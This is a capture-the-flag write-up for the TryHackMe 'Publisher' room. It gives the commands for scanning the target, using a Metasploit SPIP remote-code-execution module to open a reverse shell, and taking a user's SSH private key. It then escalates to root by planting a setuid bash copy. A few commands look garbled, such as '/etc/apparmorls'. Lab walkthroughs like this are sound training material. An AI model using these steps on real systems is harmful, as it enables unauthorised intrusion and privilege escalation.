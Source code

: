 # Publisher - [TryHackMe](https://tryhackme.com/room/publisher) Writeup 👑

## Introduction
Explore a vulnerable SPIP-based web application to gain initial access through a known RCE vulnerability. Escalate privileges using weak SSH key management and exploit AppArmor misconfigurations to become root.

## Scanning
```python
nmap -A 10.10.41.41
```
Ports found:
```python
22/tcp – SSH (tcpwrapped).
80/tcp – HTTP. Server: Apache/2.4.41. Page title: “Publisher's Pulse: SPIP Insights & Tips”.
```
## Directory Bruteforce
```python
gobuster dir -u 10.10.41.41 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt
```
Found:
```python
/spip (301)
```
Using Wappalyzer, we identified:
```python
SPIP CMS v4.2.0
```
## Exploitation
Using msfconsole:
```python
search spip
```
Exploit found:
```python
exploit/multi/http/spip_rce_form
```
Configure and run:
```python
use exploit/multi/http/spip_rce_form
set LHOST <your IP>
set RHOSTS 10.10.41.41
set TARGETURI /spip
exploit
```
Get a reverse shell.
```python
cd /home/think
cat user.txt
```
## Upgrading the shell
Extract private key:
```python
cd .ssh
cat id_rsa
```
On your machine:
```python
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa think@10.10.41.41
```
## Privilege Escalation
Hint suggests looking at AppArmor:
```python
cd /etc/apparmorls
ls -la /bin/bash
```
If unrestricted, use:
```python
cd /dev/shm
cp /bin/bash .
./bash -p
```
In /opt, replace the script:
```python
cat << EOF > run_container.sh
#!/bin/bash
cp /bin/bash /tmp/default
chmod +s /tmp/default
EOF
```
```python
run_container
cd /tmp
./default -p
```
## Root
```python
cat /root/root.txt
```

Great! You've gained full root access by chaining together web exploitation, SSH key abuse, and exiting the container via AppArmor misconfiguration. A solid task to practice real-world post-exploit techniques.
